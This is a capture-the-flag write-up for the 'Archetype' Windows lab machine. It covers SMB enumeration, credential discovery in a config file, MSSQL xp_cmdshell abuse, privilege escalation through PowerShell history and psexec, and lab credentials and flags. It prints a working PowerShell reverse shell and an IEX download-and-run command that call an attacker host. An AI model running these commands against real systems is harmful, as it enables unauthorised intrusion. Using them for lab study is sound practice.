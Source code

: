 # Archetype 

> Easy | Windows 

<br>

### Process:
1) run autorecon
- `sudo python3 autorecon 10.10.10.27`
- found:
  - 135,139,445 (NetBIOS)
  - 1433 (mssql)

<br>

2a) enumerate 135,139,445 (NetBIOS):
- found share "backups" that was read only
  - connect and inspect with no password: `smbclient //10.10.10.27/backups -N`
  - found "prod.dtsConfig" -- contains password information for sql:
    - ARCHETYPE\sql_svc:M3g4c0rp123
- found share "IPC$" that was read only

<br>

3) try to login to mssql service:
- `python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth` -- sucess
  
4) get a shell:
- reconfigure xp_cmdshell to use powershell commmands:
  - `EXEC sp_configure 'Show Advanced Options', 1;` -> `reconfigure;` -> `sp_configure;`
- get powershell reverse shell on system:
  - create powershell reverse shell on attack (called "shell.ps1"):
  ```ps1
  $client = New-Object System.Net.Sockets.TCPClient("10.10.15.73",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
  ```
  - get onto system using Python web server:
    - `sudo python3 -m http.server 80`
  - create netcat listener to catch reverse shell:
    - `sudo rlwrap nc -nvlp 443`
- download and execute reverse shell through "xp_cmdshell"
  - `xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.15.73/shell.ps1\");"`


<br>

5) get flags:
- get the user flag:
  - shell recevies is as "sql_svc" user so can get the user flag
  - `more \Users\sql_svc\Desktop\user.txt`
  - user flag = **3e7b102e78218e935bf3f4951fec21a3**
- get admin flag:
  - need to escalate prvileges:
    - check frequently accessed files or executed commands
    - `type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
    - in PowerShell history file found "backups" drive has been mapped using the local admin credentials "admisistrator:MEGACORP_4adm1n!!"
  - use Impacket's "psexec.py" to gain a privileged shell
    - `psexec.py administrator@10.10.10.27` -> [MEGACORP_4adm1n!!]
  - read admin flag:
    - `more \users\administrator\desktop\root.txt`
    - system flag = **b91ccec3305e98240082d4474b848528**
